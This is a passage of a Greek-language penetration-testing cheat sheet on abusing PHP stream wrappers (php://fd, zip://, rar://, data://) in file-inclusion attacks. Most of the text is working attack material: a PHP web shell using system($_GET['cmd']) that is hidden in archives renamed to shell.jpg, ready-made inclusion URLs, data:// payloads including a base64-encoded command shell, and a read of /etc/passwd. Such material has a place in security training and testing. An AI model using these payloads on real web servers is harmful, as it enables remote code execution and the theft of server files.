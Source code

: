 Στην ανάρτηση διαρρεύθηκε επίσης ένα εργαλείο για να το εκτελεί αυτό αυτόματα: [php\_filters\_chain\_oracle\_exploit](https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit).

### php://fd

Αυτή η περιτύλιξη επιτρέπει την πρόσβαση σε περιγραφείς αρχείων που έχει ανοίξει η διαδικασία. Πιθανώς χρήσιμο για να εξάγετε το περιεχόμενο των ανοιχτών αρχείων:
```php
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```
Μπορείτε επίσης να χρησιμοποιήσετε **php://stdin, php://stdout και php://stderr** για να αποκτήσετε πρόσβαση στους **file descriptors 0, 1 και 2** αντίστοιχα (δεν είμαι σίγουρος πώς αυτό θα μπορούσε να είναι χρήσιμο σε μια επίθεση)

### zip:// και rar://

Ανεβάστε ένα αρχείο Zip ή Rar με ένα PHPShell μέσα και αποκτήστε πρόσβαση σε αυτό.\
Για να μπορέσετε να εκμεταλλευτείτε το πρωτόκολλο rar, **πρέπει να ενεργοποιηθεί συγκεκριμένα**.
```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```
### data://
```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
Σημειώστε ότι αυτό το πρωτόκολλο περιορίζεται από τις ρυθμίσεις php **`allow_url_open`** και **`allow_url_include`**

### expect://

